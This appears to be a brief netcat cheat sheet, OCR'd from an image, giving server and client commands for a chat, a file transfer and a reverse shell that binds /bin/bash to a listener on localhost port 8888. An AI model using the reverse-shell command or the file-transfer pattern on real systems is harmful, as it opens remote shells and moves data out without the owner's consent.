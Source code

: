 #bash(chat)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888
```

#bash(reverse_shell)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888 -e /bin/bash
```

#bash(file_download)
```
# server
nc -lvp 8888 > /tmp/output.txt

# client
nc 127.0.0.1 8888 < /tmp/input.txt
```
